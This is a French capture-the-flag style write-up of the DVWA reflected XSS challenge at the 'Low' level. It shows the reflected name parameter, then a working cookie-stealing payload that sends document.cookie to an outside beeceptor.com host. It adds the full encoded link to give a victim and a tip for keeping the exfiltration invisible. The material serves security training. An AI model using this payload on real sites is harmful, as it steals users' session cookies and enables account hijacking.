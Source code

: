 # Niveau "Low"

Sur ce challenge, un simple formulaire permettant de saisir son nom :

![](../../../../.gitbook/assets/bbf16dde4020a8d2d1fe14407f9a86a6.png)

Le paramètre **`GET`** nommé `name` est simplement réfléchi sur la page :

![](../../../../.gitbook/assets/0f1ab9498e89d4b6ab5e5aad787c2e10.png)

Tentons une simple `alert()` box  :

![](../../../../.gitbook/assets/f3a8c7198442aeed07b360f1edb5fd49.png)

Il ne reste plus qu'a forger un lien exécutant un script envoyant les cookies de la victime sur un serveur malicieux :

```javascript
<script>document.write('<img src="https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie + '" />')</script>
```

![](../../../../.gitbook/assets/bf16bb33a4bc0fb6c35065e43d4c62be.png)

L'URL complète à soumettre à la victime est :

```http
http://192.168.56.203:8080/vulnerabilities/xss_r/?name=%3Cscript%3Edocument.write%28%27%3Cimg+src%3D%22https%3A%2F%2Fdvwaxssrefl.free.beeceptor.com%3Fcookie%3D%27+%2B+document.cookie+%2B+%27%22+%2F%3E%27%29%3C%2Fscript%3E
```

L'exécution de la payload sera invisible pour la victime \(concernant l'icone de l'image, il suffira de renseigner une taille à 0\) :

![](../../../../.gitbook/assets/72061dc6e01cd1e4dec722d83662e405.png)

Côté attaquant, nous recevons la valeur des cookies lors du chargement de l'image \(par notre victime\) :

![](../../../../.gitbook/assets/f07926511e14747e755e5538516e2c02.png)

{% hint style="info" %}
J'utilise ici le service [beeceptor.com](https://beeceptor.com/) mais il est bien sur possible d'utiliser son propre serveur malicieux à partir du moment qu'il est possible d visualiser les requêtes effectuées
{% endhint %}

